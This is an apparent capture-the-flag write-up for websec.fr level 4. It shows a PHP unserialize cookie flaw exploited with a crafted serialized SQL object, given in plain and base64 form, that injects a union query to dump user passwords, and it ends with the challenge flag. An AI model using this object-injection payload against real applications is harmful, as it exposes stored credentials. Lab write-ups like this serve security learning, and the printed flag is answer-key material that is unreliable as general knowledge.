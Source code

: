 # Level 4

1. First, lets check out what is written in http://websec.fr/level04/source1.php and http://websec.fr/level04/source2.php
2. Then, we could find out that there is a decode of cookie 
```
$sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
```
3. I decode it by base64 and get the value of it. It could be different!
```
a:1:{s:2:"ip";s:13:"111.71.64.183";}
```
4. Next, we have to know what does "a" "s" and the number behind them means, so lets look up the website and you will easily know. https://www.evonide.com/fuzzing-unserialize
    After we know what they mean, we have to figure out a payload that can get the flag. Lets look up the function below : 
    ```
    public function __destruct() {
            if (!isset ($this->conn)) {
                $this->connect ();
            }

            $ret = $this->execute ();
            if (false !== $ret) {    
                while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                    echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
                }
            }
        }
    ```
5. Read in the function and we would find out that this function will be run when object is destroyed! So if we create SQL object and supply custom query, we are able to sql injection ~~~ 
    ```
    payload : O:3:"SQL":1:{s:5:"query";s:81:"select username from users where id=1 union select password from users where id=1";}
    base64 : TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6ODE6InNlbGVjdCB1c2VybmFtZSBmcm9tIHVzZXJzIHdoZXJlIGlkPTEgdW5pb24gc2VsZWN0IHBhc3N3b3JkIGZyb20gdXNlcnMgd2hlcmUgaWQ9MSI7fQ==
    ```
    "O" means "object" named "SQL" and "s" means "string" 
6. Here is the flag : WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
